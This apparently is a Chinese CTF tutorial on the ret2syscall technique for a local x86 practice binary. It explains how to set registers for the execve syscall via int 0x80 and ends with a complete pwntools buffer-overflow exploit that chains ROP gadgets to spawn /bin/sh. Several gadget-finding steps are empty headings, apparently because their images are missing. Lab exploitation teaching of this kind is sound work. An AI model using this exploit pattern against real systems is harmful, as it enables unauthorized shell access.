



# ret2syscall


## int80中断

linux x86提供了一个内中断程序，子程序编号11（0xb），该子程序的作用为调用execve函数


int execve(const char *path, char *const argv[], char *const envp[]);

这个函数的作用是执行一个程序，而/bin/sh其实也是属于linux中的一个程序，所以我们可以通过触发int 80中断，通过execve函数来调用/bin/sh从而获得shell权限。


## evecve参数传递

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

注意：ebx、ecx、edx分别对应execve函数中的path、argv、envp参数，其中path参数指定执行的程序，所以将此设置为"/bin/sh"字符串的首地址，至于其他两个参数是可选的，直接设为NULL（0）


## 构造payload

### 计算get(esp+0x1c)至返回地址的字节数，用垃圾数据进行填充




### 找到pop eax ; ret




### 找到pop edx ; pop ecx ; pop ebx ; ret


### 找到 int 0x80


### 找到 "/bin/sh" 字符串




### 完整payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2syscall')


eax = p32(0xb)
ebx = p32(0x080be408) # shell string /bin/sh
ecx = p32(0)
edx = p32(0)

int80_addr = p32(0x08049421)
eax_addr = p32(0x080bb196)
edx_dcx_ebx_addr = p32(0x0806eb90)

#payload =  b"A" * 112 + eax_addr + eax + edx_dcx_ebx_addr + edx + ecx + ebx + int80_addr

payload = b"A" * 112 + p32(0x080bb196) + p32(0xb) + p32(0x0806eb90) + p32(0) + p32(0) + p32(0x080be408) + p32(0x08049421)

sh.sendline(payload)
sh.interactive()
```

